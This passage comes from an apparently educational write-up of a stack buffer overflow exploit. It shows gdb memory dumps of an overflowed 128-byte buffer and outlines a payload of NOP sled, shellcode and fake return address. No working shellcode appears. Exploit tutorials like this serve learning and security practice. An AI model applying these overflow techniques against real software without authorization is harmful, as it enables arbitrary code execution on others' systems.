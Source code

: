 Now let the **leave** instruction execute , and stop at the **ret** instruction.
{: .text-justify}

```shell
gdb-peda$ stepi
[...]
gdb-peda$ x/100xg $esp
0xffffd5e0: 0xffffd6a4ffffd700 0xf7e3d39dffffd6b0
0xffffd5f0: 0xf7fb2000ffffd610 0xf7e25a6300000000
0xffffd600: 0x0000000008048590 0xf7e25a6300000000

[...]
 
0xffffd7d0: 0x622f746f6f722f00 0x61616100636f7066
0xffffd7e0: 0x6161616161616161 0x6161616161616161 
0xffffd7f0: 0x6161616161616161 0x6161616161616161 
0xffffd800: 0x6161616161616161 0x6161616161616161 
0xffffd810: 0x6161616161616161 0x6161616161616161 
0xffffd820: 0x6161616161616161 0x6161616161616161 
0xffffd830: 0x6161616161616161 0x6161616161616161 
0xffffd840: 0x6161616161616161 0x6161616161616161 
0xffffd850: 0x6161616161616161 0x6161616161616161 
0xffffd860: 0x6161616161616161 0x434c00f7e76de061
```

So I didn't lie! The variable **buffer[<span style="color:red">128</span>]** is a thing of the past... Pretty much... But still, let's see what the memory looks like **160 byte** above:


```shell
gdb-peda$ x/20xg $esp-160
0xffffd540: 0xffffd55008048714 0xf7e7c06e08048636
0xffffd550: 0x6161616161616161 0x6161616161616161 
0xffffd560: 0x6161616161616161 0x6161616161616161 
0xffffd570: 0x6161616161616161 0x6161616161616161 
0xffffd580: 0x6161616161616161 0x6161616161616161 
0xffffd590: 0x6161616161616161 0x6161616161616161 
0xffffd5a0: 0x6161616161616161 0x6161616161616161 
0xffffd5b0: 0x6161616161616161 0x6161616161616161 
0xffffd5c0: 0x6161616161616161 0x6161616161616161 
0xffffd5d0: 0x6161616161616161 0xf7e76de061616161
```

And yes, the data is still there! A priori everything should pass then? Well let's try...
{: .text-justify}

## THE CRUSHER TASTES ITS OWN MEDECINE

To demonstrate my good faith, we are going to construct our exploit in a “_naive_” way as I presented it to you previously… I see you coming, but no it was no lie, just a practical simplification. :p
{: .text-justify}

**<span style="color:pink">NOPSled</span>**(_117 Bytes_) + **<span style="color:red">Shellcode</span>**(_23 Bytes_) + **<span style="color:blue">Fake Return Address</span>**(_4 Bytes_).
{: .text-justify}
